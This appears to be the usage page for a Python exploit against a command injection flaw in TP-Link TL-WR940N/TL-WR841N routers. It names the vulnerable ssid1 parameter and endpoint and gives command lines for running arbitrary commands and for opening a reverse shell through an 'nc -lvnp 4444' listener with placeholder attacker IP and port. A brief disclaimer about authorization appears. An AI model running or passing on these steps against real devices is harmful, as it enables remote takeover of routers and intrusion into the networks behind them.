# Python Exploit for TP-Link TL-WR940N/TL-WR841N Command Injection Vulnerability


## Usage Instructions

1. **Basic Vulnerability Check**:
   ```
   python tplink_exploit.py -t 192.168.1.1 -u admin -p admin
   ```

2. **Execute Custom Command**:
   ```
   python tplink_exploit.py -t 192.168.1.1 -u admin -p admin -c "your_command_here"
   ```

3. **Reverse Shell** (set up listener first with `nc -lvnp 4444`):
   ```
   python tplink_exploit.py -t 192.168.1.1 -u admin -p admin --lhost YOUR_IP --lport 4444
   ```

**Important Notes**:
- These scripts are for educational and testing purposes only
- Always get proper authorization before testing any system
- The reboot command is used as default because it's non-destructive and easily verifiable
- The reverse shell may not work on all firmware versions as it depends on available binaries
- Some firmware versions require a random path in the URL which the script attempts to detect automatically

The vulnerability exists due to improper input sanitization in the `ssid1` parameter of the `/userRpm/WlanNetworkRpm.htm` endpoint, allowing command injection through specially crafted requests.
